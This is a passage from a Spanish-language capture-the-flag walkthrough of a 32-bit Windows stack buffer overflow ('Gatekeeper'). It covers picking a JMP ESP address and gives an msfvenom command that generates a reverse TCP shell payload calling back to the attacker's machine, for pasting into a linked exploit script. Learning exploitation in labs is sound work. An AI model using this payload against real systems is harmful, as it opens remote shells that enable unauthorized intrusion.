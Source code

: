![jmp gatekeeper](/assets/images/jmpGatekeeper.png)

Podemos observar que se nos lista dos direcciones y que las mismas son capaces de leer y ejecutar lo que se encuentra en `ESP`.

De estas dos direcciones, podemos elegir cualquiera de las dos.

### 7. Reverse Shell

Una vez hemos eliminado **todos** los badchars y teniendo una dirección al `ESP` podremos crear nuestra shell para poder obtener una conexión reversa hacia nuestro equipo de atacante.

El resultado del siguiente comando lo debemos poner en nuestro script final [finalexploit.py](https://github.com/hacknotes/h4ckn0tes/blob/main/Buffer%20Overflow/Windows/Stack%20Based%2032%20Bits%20(Gatekeeper)/finalexpolit.py).

```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a" -e x86/shikata_ga_nai -f c
```

![Shell local](/assets/images/rshellGateLocal.png)
